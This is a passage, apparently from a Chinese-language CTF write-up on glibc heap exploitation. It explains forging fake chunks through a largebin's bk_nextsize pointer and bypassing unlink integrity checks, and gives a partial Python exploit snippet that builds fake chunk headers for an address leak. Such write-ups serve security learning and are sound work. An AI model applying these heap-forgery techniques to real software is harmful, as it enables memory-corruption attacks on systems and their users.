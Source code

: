 ![堆图](./chunk_structure.jpg)</br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为largebin list是从大到小排列的，所以fd_nextside指向小一点的堆块，bk_nextiside指向最右边的最小的堆块。所以当新malloc一个large bin大小的堆块的时候，分配器会从largebin list中最大的堆块的bk_nextsize指向的最小堆块开始遍历试图找一个合适大小的堆块分配，因此我们从索引11的堆块的bk_nextside开始伪造，先把bk_nextsize修改为我们伪造的堆块的地址，然后在相关地址上开始伪造堆块chunk1，注意unlink的检查，再伪造一个chunk2绕过chunk1的fd_nextsize与bk_nextsize的检查，注意bk与fd也有一个检查:`p->bk->fd==p,p->fd->bk==p`。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终leak的代码如下：</font></br>

```python

# the faked chunk's address
# fake a main chunk: chunk1
# and fake a chunk2 to bypass the
# bk_nextsize and fd_nextsize check
# do not forget the fd and bk check
target=chunk_base+0xb0
chunk1_addr=chunk_base+0x130
chunk2_addr=chunk_base+0x1b0
victim_addr=chunk_base+0x8d0

edit(11,p64(chunk1_addr))

chunk1=p64(0)
chunk1+=p64(0)
chunk1+=p64(0x401)
chunk1+=p64(target-0x18)
chunk1+=p64(target-0x10)
chunk1+=p64(victim_addr)
chunk1+=p64(chunk2_addr)
edit(2,chunk1)

```